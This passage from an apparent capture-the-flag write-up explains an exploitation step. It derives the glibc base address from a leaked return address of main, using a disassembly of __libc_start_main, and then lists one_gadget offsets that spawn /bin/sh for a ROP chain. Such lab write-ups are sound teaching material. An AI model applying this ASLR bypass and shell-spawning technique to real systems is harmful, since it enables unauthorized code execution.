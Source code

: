 So we can disassemble the libc and search the ``` _libc_start_main ```, then knowing that the shared libraries are mapped to the process space with a page o size 0x1000 we can assume that the last byte and nibble are untouched from the base address, for example here we have ``` 0x7f01ebf04d0a ``` and knowing what we have discussed before we know that the last ``` 0xd0a ``` of the addres are untouched from the randomization of the base address.

The following code is the disassebled of the ``` _libc_start_main ``` inside the glibc on my pc.

```asm
.text:026C20 __libc_start_main proc near             ; DATA XREF: LOAD:00000000000146A8↑o
.text:026C20                 push    r15
.text:026C22                 xor     eax, eax
.text:026C24                 push    r14
.text:026C26                 push    r13
.
.
.
.text:026CFC                 mov     rsi, [rsp+0C8h+var_C8]
.text:026D00                 mov     rdx, [rax]
.text:026D03                 mov     rax, [rsp+0C8h+var_B8]
.text:026D08                 call    rax
.text:026D0A                 mov     edi, eax ########### HERE CALL MAIN FUNC ###########
.text:026D0C ############################################ RET ADDR OF MAIN ##############
.text:026D0C loc_26D0C:                              ; CODE XREF: __libc_start_main+152↓j
.text:026D0C                 call    exit
.text:026D11 ; ---------------------------------------------------------------------------
.text:026D11
.text:026D11 loc_26D11:                              ; CODE XREF: __libc_start_main+5B↑j
.
.
.text:026DF7 __libc_start_main endp
```

So the base of the glibc is ``` leaked_ret_af_main -  0x26D0C ``` now that we have the base adress of the glibc we can ROP into a one_gadget, using the tool ``` one_gadget ``` we can find all the one gadget that are inside a lib.

```bash
┌──(eurus㉿ctf)-[~/Documents/Harvester]
└─$ one_gadget libc.so.6
0xcbd1a execve("/bin/sh", r12, r13)
constraints:
  [r12] == NULL || r12 == NULL
  [r13] == NULL || r13 == NULL

0xcbd1d execve("/bin/sh", r12, rdx)
constraints:
  [r12] == NULL || r12 == NULL
  [rdx] == NULL || rdx == NULL

0xcbd20 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```
